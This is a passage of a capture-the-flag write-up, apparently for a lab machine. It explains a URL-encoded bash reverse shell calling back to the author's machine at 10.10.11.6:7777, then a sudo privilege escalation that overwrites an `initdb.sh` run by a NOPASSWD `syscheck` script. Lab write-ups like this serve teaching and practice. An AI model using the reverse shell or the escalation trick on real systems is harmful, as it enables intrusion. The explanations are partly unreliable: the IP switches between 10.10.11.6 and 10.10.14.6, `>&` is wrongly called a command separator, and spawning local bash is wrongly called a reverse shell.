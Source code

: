 1. **`date=2023-09-15;`**  
   - This part is where I assign the value `2023-09-15` to the variable `date`. This executes first before moving on to the main command.

2. **`bash -c '...'`**  
   - I use `bash -c` to execute the command inside the single quotes. It tells my system to run the string inside as a command.

3. **`bash -i`**  
   - This starts a new instance of **bash** in **interactive mode**, which is essential because it gives me a fully interactive shell.

4. **`>%26 /dev/tcp/10.10.11.6/7777`**  
   - **`>%26`** is the encoded version of `&`, which is used to separate commands in bash.
   - **`/dev/tcp/10.10.14.6/7777`** is a special device in Linux that allows me to create a **TCP connection** to `10.10.11.6` (my attacker machine) on port `7777`.

5. **`0>%26 1`**  
   - **`0>%26`**: Redirects **stdin** (input) from the attacker’s machine.
   - **`1`**: Redirects **stdout** (output) to the same TCP connection, so any command results are sent back to my machine.

### **What This Does:**
- The command **opens a TCP connection** from the target machine to my machine at IP `10.10.11.6` on port `7777`.
- Both the input (commands I send) and output (results) are handled over this network connection, allowing me to send commands to the target and receive responses.

This is how I establish a reverse shell to gain interactive access to the target system.

Once inside the shell we can look for the **user.txt** flag.

After finding the user flag. I did a quick sudo permsission that returned:
(ALL) NOPASSWD: /usr/bin/syscheck

`cat /usr/bin/syscheck`

```
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
```

Here’s what I did and why that first script was important:

1. **Understanding the Script**
   The first script checks if the **`initdb.sh`** script is already running by using `pgrep -x "initdb.sh"`. If it isn’t running, it outputs "Database service is not running. Starting it..." and then runs the `initdb.sh` script.
   - **Why it matters**: This check told me that if the service wasn’t running, I could start it. The key part for me was that this script was executing `initdb.sh`, which could be vulnerable if I could modify it.

2. **Modifying the Script**
   I realized I could inject my own commands into the `initdb.sh` script. To do this, I ran:
   ```bash
   echo "/bin/bash" > initdb.sh
   ```
   This replaced the contents of `initdb.sh` with a command that spawns a **bash shell**, which would give me a reverse shell when executed.
